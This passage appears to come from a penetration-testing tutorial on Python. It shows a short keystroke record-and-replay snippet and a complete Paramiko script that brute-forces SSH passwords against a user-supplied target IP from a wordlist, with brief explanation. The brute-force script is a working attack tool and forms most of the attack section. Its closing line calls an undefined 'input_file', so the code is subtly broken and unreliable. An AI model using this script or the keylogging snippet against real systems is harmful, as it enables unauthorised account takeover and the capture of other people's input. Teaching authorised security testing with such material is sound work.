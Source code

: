 Using the keyboard module, the following three lines of code would be enough to record and replay keys pressed: 

```python
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

“keyboard.record” will record the keys until ENTER is pressed, and  “keyboard.play” will replay them. As this script is logging keystrokes,  any edit using backspace will also be seen. 

#  SSH Brute Forcing                            

The powerful Python language is supported by a number of modules that easily extend its capabilities. Paramiko is an SSHv2 implementation  that will be useful in building SSH clients and servers. 

The  example below shows one way to build an SSH password brute force attack  script. As is often the case in programming, there rarely is a single  correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers.  While they may care about best practices and code hygiene, your goal  will more often be to end with a code that works as you want it to. 

By now, you should be familiar with the "try" and "except" syntax. This  script has one new feature, "def". "Def" allows us to create custom  functions, as seen below. The "ssh_connect" function is not native to  Python but built using Paramiko and the "paramiko.SSHClient()" function. 

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
            print(e)
        pass

input_file.close()
```
